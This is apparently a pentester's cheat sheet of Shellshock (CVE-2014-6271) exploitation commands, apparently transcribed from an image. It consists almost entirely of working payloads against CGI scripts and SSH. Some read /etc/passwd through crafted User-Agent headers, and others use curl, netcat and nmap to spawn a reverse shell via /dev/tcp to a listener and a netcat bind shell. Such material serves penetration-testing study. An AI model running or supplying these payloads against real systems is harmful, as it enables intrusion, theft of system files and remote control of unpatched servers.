 curl -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id' http://10.11.1.71/cgi-bin/admin.cgi

nmap 10.11.1.71 -p 80 \
  --script=http-shellshock \
  --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi

./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose

* Shellshock via SSH
ssh -vvv
ssh -i noob noob@$ip '() { :;}; /bin/bash'

* cat file (view file contents)

echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
       
curl -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.178.102/9999 0>&1" "http://192.168.178.121:80/cgi-bin/status/"

* Shellshock run bind shell using netcat

echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80